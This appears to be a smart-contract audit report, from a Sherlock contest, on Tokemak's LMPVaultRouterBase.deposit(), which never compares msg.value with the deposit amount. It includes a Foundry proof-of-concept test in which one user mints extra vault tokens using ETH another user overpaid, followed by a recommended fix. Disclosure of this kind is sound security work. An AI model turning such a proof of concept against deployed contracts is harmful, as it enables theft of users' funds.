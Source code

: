 Jumpy Chili Copperhead

high

# A malicous user can mint more  vault tokens than he deserves using LMPVaultRouterBase.deposit() by paying less eth when  address(vault.asset()) == address(weth9).
## Summary
When address(vault.asset()) == address(weth9), a user can pay ETH directly via msg.value and mint vault tokens. However, since the deposit() function never checks the msg.value against the input argument ``amount``, one user might overpay while another user might underpay. As a result, the funding left by the overpayment will be stolen by a second user who underpays. For example, a user might pay 2e18 eth while only minting 1e18 tokens, while a second user will pay 1e18 eth but minting 2e18 tokens. 


## Vulnerability Detail
First of all, this finding is separate from the finding of double payment problem and assumes that we have already fixed the double payment problem by add the following if statement to the ``pulltoken()`` line:

```javascript
if(msg.value ==0) pullToken(vaultAsset, amount, address(this));
```
In other words, only when there is no eth sent to the contract, we need to pull tokens from the user. 

Now, the problem with LMPVaultRouterBase.deposit() is that the value of amount and the value of msg.value are not compared. They should be equal to each other to avoid over/under payment. 

[https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L44-L57](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L44-L57)

## Impact
A user can pay little eth but mint more tokens than he  deserves, while another user might overpay and leaves some eth to the contract for other user to steal. 

## Code Snippet
Our following POC confirms our finding: we first fixed the double payment problem by changing the line of ``pulltoken()`` to be the following line:

```javascript
if(msg.value ==0) pullToken(vaultAsset, amount, address(this));
```

The finding shows user1 pays 2e18 but only minted 1e18 tokens, while user2 pays only 1e18 but steals the 1e18 left by user1 in the contract and manages to mint 2e18 tokens. 


```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity =0.8.17;

import "forge-std/Test.sol";
import { TestERC20 } from "test/mocks/TestERC20.sol";
import { SystemRegistry } from "src/SystemRegistry.sol";
import { LMPVaultRegistry } from "src/vault/LMPVaultRegistry.sol";
import { LMPVaultFactory } from "src/vault/LMPVaultFactory.sol";
import { AccessController } from "src/security/AccessController.sol";
import { SystemSecurity } from "src/security/SystemSecurity.sol";
import { LMPVault } from "src/vault/LMPVault.sol";
import { Roles } from "src/libs/Roles.sol";
import { Clones } from "openzeppelin-contracts/proxy/Clones.sol";

import { IWETH9 } from "src/interfaces/utils/IWETH9.sol";
import "src/tokens/WETH9.sol";
import "src/vault/LMPVaultRouterBase.sol";


contract myLMPVaultRouterBase is LMPVaultRouterBase{
    constructor(address _weth9)LMPVaultRouterBase(_weth9)
    {

    }
} 

contract MyTest is Test {
    using Clones for address;

    SystemRegistry private _systemRegistry;
    AccessController private _accessController;
    LMPVaultRegistry private _lmpVaultRegistry;
    LMPVaultFactory private _lmpVaultFactory;
    SystemSecurity private _systemSecurity;
    address _template;

    TestERC20 _toke;
    TestERC20 _asset;
    IWETH9 weth9;
    myLMPVaultRouterBase lmp;
    LMPVault _vault;
    



    function setUp() public virtual {
        vm.label(address(this), "testContract");

        _toke = new TestERC20("test", "test");
        vm.label(address(_toke), "toke");

        _systemRegistry = new SystemRegistry(address(_toke), address(new TestERC20("weth", "weth")));
        _systemRegistry.addRewardToken(address(_toke));

        _accessController = new AccessController(address(_systemRegistry));
        _systemRegistry.setAccessController(address(_accessController));

        _lmpVaultRegistry = new LMPVaultRegistry(_systemRegistry);
        _systemRegistry.setLMPVaultRegistry(address(_lmpVaultRegistry));

        _systemSecurity = new SystemSecurity(_systemRegistry);
        _systemRegistry.setSystemSecurity(address(_systemSecurity));

        // Setup the LMP Vault

        _asset = new TestERC20("asset", "asset");
        _systemRegistry.addRewardToken(address(_asset));
        vm.label(address(_asset), "asset");

       
        weth9 = IWETH9(address(new WETH9()));
        _template = address(new LMPVault(_systemRegistry, address(weth9)));

        _lmpVaultFactory = new LMPVaultFactory(_systemRegistry, _template, 800, 100);    
        _accessController.grantRole(Roles.REGISTRY_UPDATER, address(_lmpVaultFactory));         


        lmp = new myLMPVaultRouterBase(address(weth9));
        _vault = LMPVault(address(_template).cloneDeterministic(keccak256("salt")));
        _vault.initialize(10000000e18, 1000000e18, "x", "y", "");
        
    }


    function deposit(address user, uint msgValue, uint256 amount, uint256 minSharesOut) public{

    
        vm.startPrank(user);
        lmp.deposit{value: msgValue}(_vault, user, amount, minSharesOut);
        vm.stopPrank();

    
    }


    function testMe() public
    {
        address user1 = address(111);
        address user2 = address(222);

        user1.call{value: 2e18}("");
        user2.call{value: 1e18}("");

        deposit(user1, 2e18, 1e18, 1e18);
        deposit(user2, 1e18, 2e18, 2e18);

        uint256 Bal1 = _vault.balanceOf(user1);
        uint256 Bal2 = _vault.balanceOf(user2);

        console2.log("Bal1: %d", Bal1);
        console2.log("Bal2: %d", Bal2);

        assertEq(Bal1, 1e18);     
        assertEq(Bal2, 2e18);      
    }
}
```

## Tool used
VSCode

Manual Review

## Recommendation
We need to compare ``msg.value`` to make sure it is equal to ``amount``.
```javascript

 function deposit(
        ILMPVault vault,
        address to,
        uint256 amount,
        uint256 minSharesOut
    ) public payable virtual override returns (uint256 sharesOut) {
        // handle possible eth
        _processEthIn(vault);

+    if(msg.value > 0 && msg.value != amount) revert EthValueMismatch();

        IERC20 vaultAsset = IERC20(vault.asset());
-        pullToken(vaultAsset, amount, address(this));
+       if(msg.value ==0 )  pullToken(vaultAsset, amount, address(this));


        return _deposit(vault, to, amount, minSharesOut);
    }
```
